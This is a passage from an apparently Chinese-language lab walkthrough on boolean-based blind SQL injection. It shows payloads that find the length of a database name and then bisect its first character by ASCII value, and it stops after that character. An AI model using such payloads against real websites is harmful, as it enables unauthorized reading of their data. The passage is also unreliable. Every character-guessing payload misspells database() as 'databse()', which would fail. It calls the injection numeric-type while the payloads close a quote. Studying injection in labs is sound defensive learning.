 以上结果说明此处存在数字型的sql盲注

2. 猜解当前数据库名

想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。

```text

输入1' and length(database())=1 #，显示不存在；



输入1' and length(database())=2 #，显示不存在；



输入1' and length(database())=3 #，显示不存在；



输入1' and length(database())=4 #，显示存在;
```

以上结果说明数据库名长度为4 ，**正常情况下请使用二分法**。

同样使用**二分法**猜解数据库名。

```text

输入1' and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；



输入1' and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；



输入1' and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；



输入1' and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；



输入1' and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；



输入1' and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。



...
```
